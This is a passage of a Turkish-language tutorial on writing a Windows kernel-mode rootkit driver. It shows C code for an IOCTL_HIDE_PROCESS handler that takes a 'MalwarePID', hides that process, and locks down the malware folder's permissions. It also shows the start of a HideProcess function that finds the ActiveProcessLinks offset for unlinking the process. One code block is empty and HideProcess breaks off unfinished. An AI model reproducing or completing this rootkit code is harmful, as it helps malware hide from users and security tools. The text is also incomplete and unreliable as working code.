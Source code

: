 ```c
```

Bu fonksiyondaki adımlar ise basit. İlk olarak OBJECT_ATTRIBUTES yapısını oluşturuyoruz. Bu yapıyı oluşturmamızın sebebi, gizli klasörün özellikleri tanımlamak için. 

Daha sonra ZwCreateFile ile klasörü GENERIC_ALL yani tam yetki ile oluşturuyoruz. Bu işlem sonrasında klasörü kapatıyoruz ve STATUS_SUCCESS kodu ile return ediyoruz. Eğer başarısız olursa hata kodunu return ediyoruz.

```c
case IOCTL_HIDE_PROCESS:
	MalwarePID = *((HANDLE*)Irp->AssociatedIrp.SystemBuffer);
	InputBufferLength = Stack->Parameters.DeviceIoControl.InputBufferLength;

	if (NULL == MalwarePID) {
		Irp->IoStatus.Status = STATUS_INVALID_DEVICE_REQUEST;
		Irp->IoStatus.Information = 0;
		break;
	}

	Status = HideProcess(MalwarePID);
	if (!NT_SUCCESS(Status)) {
		Irp->IoStatus.Status = Status;
		Irp->IoStatus.Information = 0;
		break;
	}

	Status = SetFolderPermissions(G_ExecutablePath, DELETE | FILE_EXECUTE);
	if (!NT_SUCCESS(Status)) {
		Irp->IoStatus.Status = Status;
		Irp->IoStatus.Information = 0;
		break;
	}

	Irp->IoStatus.Status = STATUS_SUCCESS;
	Irp->IoStatus.Information = InputBufferLength;
	break;
```

Daha sonra ise  IOCTL_HIDE_PROCESS kodu işlenmektedir. Bu kod, process'i gizlemek ve klasörün yetkilerini değiştirmek için kullanılacaktır.

İlk adımda user-mode programdan gelen PID değerini HANDLE tipinde alıyoruz. Eğer bu değer NULL ise STATUS_INVALID_DEVICE_REQUEST kodu ile return ediyoruz.

Daha sonra alınan PID değeri ile HideProcess fonksiyonunu çağırıyoruz. Bu fonksiyon, process'i gizlemek için kullanılır. Eğer HideProcess fonksiyonu başarısız olursa hata kodunu return ediyoruz.

```c
NTSTATUS HideProcess(HANDLE ProcessID) {
	PLIST_ENTRY ActiveProcessLink;
	PEPROCESS Process;
	ULONG Offset;
	NTSTATUS Status;

	Status = PsLookupProcessByProcessId(ProcessID, &Process);
	if (!NT_SUCCESS(Status)) {
		return Status;
	}

	Offset = GetActiveProcessLinkOffset();
	if (0 == Offset) {
		return STATUS_NOT_SUPPORTED;
	}
}
```
